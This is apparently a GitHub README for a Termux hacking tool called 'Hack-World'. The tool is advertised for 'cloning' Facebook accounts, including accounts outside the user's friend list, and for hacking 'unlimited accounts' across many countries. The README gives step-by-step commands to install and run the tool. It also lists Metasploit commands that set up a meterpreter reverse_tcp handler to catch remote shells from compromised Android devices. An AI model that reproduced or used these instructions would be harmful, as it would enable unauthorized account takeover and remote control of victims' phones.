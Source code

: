 ## AuThor Hacker WaSi
<h2>Hi, I'm WaSim AkrAm! <img src="https://media.giphy.com/media/12oufCB0MyZ1Go/giphy.gif" width="50"></h2>
<img align='right' src="https://media.giphy.com/media/M9gbBd9nbDrOTu1Mqx/giphy.gif" width="230">
<br/>
<a href="https://twitter.com">
  <img align="left" alt="Hackerwasii| Twitter" width="22px" src="https://cdn.jsdelivr.net/npm/simple-icons@v3/icons/twitter.svg" />
</a>
<a href="https://www.instagram.com/__empty254__/">
  <img align="left" alt="Instagram" width="22px" src="https://cdn.jsdelivr.net/npm/simple-icons@v3/icons/instagram.svg" />
</a>
<a href="https://github.com/evildevill">
  <img align="left" alt="GitHub" width="22px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.5.0/icons/github.svg" />
</a>
<a href="https://wa.me/+923137119351">
  <img align="left" alt="whatsapp" width="22px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.5.0/icons/whatsapp.svg" />
</a>
<br/>
<br/>
#### Thank You-🙏🏼

<p>
<img src="https://visitor-badge.laobi.icu/badge?page_id=HackerWaSi" alt="visitor badge"/>
</p>


## Version 2.0

## AbOut tHis ToOl 
<p>
This Tool is Specially made for Facebook Accounts cloning.<br>
you can clone your friend list accounts , targets accounts.. 
<br>
if you don,t know how to use this tool so you can visit our <a href="https://hackerwasii.blogspot.com">WeBSite</a> & read complete tutorial
<br>
you can also clone those accounts who's isnt add in your frndlist.
<br>
By using this tool you can hack unlimited accounts of diffrent countries <br>
like

* PAKISTAN
* india
* USA   
* Germany
* France 
* Bangladash
* Dubai
* indonasia
* Spain
* Poland

## Etc much more...
</p>

## Installation On Termux
```
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/evildevill/Hack-World.git
cd Hack-World
chmod +x *
python2 Hack-World.py
```
## Metasploit Commands
》》Requirements:-
```
1: Termux App (From Playstore)
2: Good Internet connection  (Must)
3: 2GB free Storage  (Must)
4: Android Version 5.0+ (Must)
5: 4GB+ RAM
6: Fast Processor
```
## installation
```
1: pkg update
2: pkg upgrade
3: pkg install unstable-repo
4: pkg install metasploit
5: msfconsole
6: use exploit/multi/handler
7: set payload android/meterpreter/reverse_tcp 
8: set lhost 
8: set lport 8080
10: exploit
```


